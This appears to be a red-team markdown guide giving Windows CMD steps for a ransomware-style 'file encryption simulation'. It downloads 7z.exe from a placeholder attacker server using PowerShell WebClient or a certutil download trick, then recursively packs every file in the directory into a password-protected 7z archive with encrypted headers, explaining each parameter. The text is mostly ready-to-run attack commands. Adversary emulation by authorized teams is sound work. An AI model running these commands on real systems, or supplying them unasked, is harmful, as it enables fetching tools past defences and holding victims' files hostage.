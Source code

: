 # Manual DOS Commands for File Encryption Simulation

**For AUTHORIZED Red Team Operations Only**

This document contains manual commands to execute the file encryption simulation from a Windows CMD shell.

---

## Prerequisites

Replace `YOUR_SERVER_IP_HERE` with your actual web server IP address hosting the 7-Zip files.

---

## Method 1: Using PowerShell from CMD

Execute these commands sequentially in CMD:

### Step 1: Download 7-Zip Executable
```cmd
powershell -Command "(New-Object Net.WebClient).DownloadFile('http://YOUR_SERVER_IP_HERE/7z.exe', '%TEMP%\7z.exe')"
```

**Alternative using certutil:**
```cmd
certutil -urlcache -split -f "http://YOUR_SERVER_IP_HERE/7z.exe" "%TEMP%\7z.exe"
```

### Step 2: Verify Download
```cmd
dir %TEMP%\7z.exe
```

### Step 3: Create Encrypted Archive (Using Temp 7z)
```cmd
%TEMP%\7z.exe a -t7z -m0=lzma2 -mx=9 -mfb=64 -md=32m -ms=on -mhe=on -pantai "encrypted_files.7z" "*" -r -x!encrypted_files.7z -xr!*.7z
```

**Explanation of parameters:**
- `a` - Add to archive
- `-t7z` - Use 7z format
- `-m0=lzma2` - Use LZMA2 compression
- `-mx=9` - Maximum compression level
- `-mfb=64` - Fast bytes (64)
- `-md=32m` - Dictionary size (32MB)
- `-ms=on` - Solid archive mode
- `-mhe=on` - Encrypt headers (hides filenames)
- `-pantai` - Password "antai"
- `"encrypted_files.7z"` - Output archive name
- `"*"` - All files in current directory
- `-r` - Recursive (include subdirectories)
- `-x!encrypted_files.7z` - Exclude the archive itself
- `-xr!*.7z` - Exclude other 7z archives
